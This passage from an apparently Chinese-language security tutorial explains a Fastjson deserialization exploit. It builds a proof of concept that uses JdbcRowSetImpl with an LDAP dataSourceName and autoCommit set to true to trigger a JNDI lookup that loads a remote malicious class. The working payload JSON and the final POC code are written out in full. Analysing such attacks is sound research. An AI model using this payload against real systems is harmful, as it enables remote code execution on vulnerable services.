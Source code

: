 这就很符合Java Bean的写法



到这里，我们是可以构造这样的POC

`ldap://127.0.0.1:8085/VigsjhwY`,弹计算器的恶意类

```java
String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/VigsjhwY\"}";
JSON.parseObject(s);
```

但是这运行没法达到我们想要的结果



遇事不决，查找用法

这里查找connect()的用法，在`JdbcRowSetImpl`类中`setAutoCommit()`，找到了`connect()`，

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }

}
public boolean getAutoCommit() throws SQLException {
    return this.conn.getAutoCommit();
}
```

为了能够进入这个方法，还需要加上`AutoCommit`,解析的时候才会调用setter

因为它的参数是`boolean`类型的，传入个true或false,也可以传入0或1

最终POC

```java
public class demo1 {
    public static void main(String[] args) {
        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:8085/VigsjhwY\",\"autoCommit\":true}";
        JSON.parseObject(s);
        //JSON.parse(s)//使用这个也行
    }
}
```

![image-20230409200759348](https://raw.githubusercontent.com/todis21/image/main/202304092011433.png)

![image-20230409200831610](https://raw.githubusercontent.com/todis21/image/main/202304092011828.png)


